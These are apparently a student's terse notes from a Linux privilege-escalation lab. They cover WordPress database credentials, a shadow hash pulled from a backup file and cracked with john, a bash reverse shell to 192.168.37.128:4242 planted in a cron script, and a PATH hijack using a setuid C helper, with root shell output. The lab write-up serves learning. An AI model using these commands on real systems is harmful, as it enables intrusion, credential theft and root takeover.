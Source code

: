 if (!defined('DB_NAME'))
    define('DB_NAME', 'wordpress');
if (!defined('DB_USER'))
    define('DB_USER', 'wordpress');


## blog

http://security-lab/blog/

edited readme.html

```
lab_student@lab:/usr/share/wordpress$ vim readme.html 

```


http://security-lab/blog/wp-login.php

username: wordpress
password: wordpress



Found backup file

```bash

lab_student@lab:/var/backups$ cat safety_backup 
# Saving my entry of the /etc/shadow file. Just in case a hacker modifies it!!!

lab_prof:$6$2ovzYOy.y4KiJju8$tgrxr.dpK20mRYpmD.SvyFIJPwYwA/ogXnPGQjgB2nNM2gmQYneVoegDaLriFwefGFoxxsHXnpSSapVxNTlFt0:18728:0:99999:7:::


```

- cracking the hash with john
```bash
unshadow pass shad  > crack.db
```

```bash
┌──(shashi@kali)-[~/linux-priv-esc]
└─$ john crack.db 
```

```bash
└─$ john --show crack.db                                                                                    1 ⨯
lab_prof:sapphire:1002:1003:,,,:/home/lab_prof:/bin/bash

1 password hash cracked, 0 left
```


```
define('DB_PASSWORD', 'goodluckhackingme');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'goodluckhackingme');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'goodluckhackingme');
define('DB_USER', 'wordpress');
```

$P$BPeXrsqn77hNby2ZjcRHfk3VnTCyhL/$P$BPeXrsqn77hNby2ZjcRHfk3VnTCyhL/

wordpress password - admin
username- admin


```
wpscan --url http:
```


Cronjob found and added reverse shell
`bash -i >& /dev/tcp/192.168.37.128/4242 0>&1`

```bash
lab_prof@lab:~$ cat .save_student_grades 
#!/bin/bash

echo "All students failed" >> /tmp/secret_grades
bash -i >& /dev/tcp/192.168.37.128/4242 0>&1

```

__Result__

```bash
└─$ nc -lvnp 4242     
listening on [any] 4242 ...
connect to [192.168.37.128] from (UNKNOWN) [192.168.37.130] 53106
bash: cannot set terminal process group (1319): Inappropriate ioctl for device
bash: no job control in this shell
root@lab:~# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@lab:~# 
```



### exploiting teacher

touch.c contains
```bash
int main(){
        setuid(0);
        system("/bin/bash -p");
}
```
compile and transfer touch to lab_teachers home directory
- then set path
```bash

chmod +x touch
PATH=.:$PATH /lab/monitor_students

```

- execute `./monitor_students`
__Result__
```bash
./moitor_students
/bin/bash: line 6: ./moitor_students: No such file or directory
./monitor_students
Starting the monitoring of the lab students.
	[WARNING] Detected several students who are cheating. Writing report to file.
Ending the monitoring process.
id
uid=0(root) gid=1002(lab_teacher) groups=1002(lab_teacher),1001(teacher)
```